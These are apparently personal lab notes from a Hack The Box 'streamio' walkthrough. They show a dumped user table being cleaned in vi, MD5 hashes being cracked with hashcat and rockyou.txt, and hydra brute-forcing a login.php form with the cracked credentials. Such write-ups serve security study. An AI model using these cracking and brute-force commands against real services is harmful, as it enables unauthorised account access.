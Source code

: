 ![[Pasted image 20250106155942.png]]
`vi users.txt`

Paste in the data.

![[Pasted image 20250106160218.png]]

Remove all the spaces:

`:%s/[ ]*//g`

![[Pasted image 20250106160143.png]]

Line breaks we want are represented by `|`

So 

`:%s/|/r/g`

Voila:

![[Pasted image 20250106160348.png]]
Guessing these passwords are md5 sum because they are 32 characters. 

![[Pasted image 20250106164623.png]]

MD5 is mode 0 in #hashcat 

`./hashcat.bin -m 0 --user hashes/streamio.hashes /opt/wordlist/rockyou.txt`

![[Pasted image 20250106165025.png]]

Show cracked hashes

`./hashcat.bin -m 0 --user hashes/streamio.hashes --show

![[Pasted image 20250106165207.png]]
Try to login with some of these creds at `login.php`.

Intercept login requests with Burp and send to repeater 

![[Pasted image 20250106190133.png]]

Use #hydra to bruteforce the login.

Need to convert the username:hash:password file to one username list and one password list for Hydra. 

`cat user.hash.pw.txt | awk -F: '{print $1":"$3}' > userpass.txt`
![[Pasted image 20250106190500.png]]
`-C` flag for hydra is the : separated password format (i.e. the format of userpass.txt)

`hydra -C userpass.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"`

Found a match 

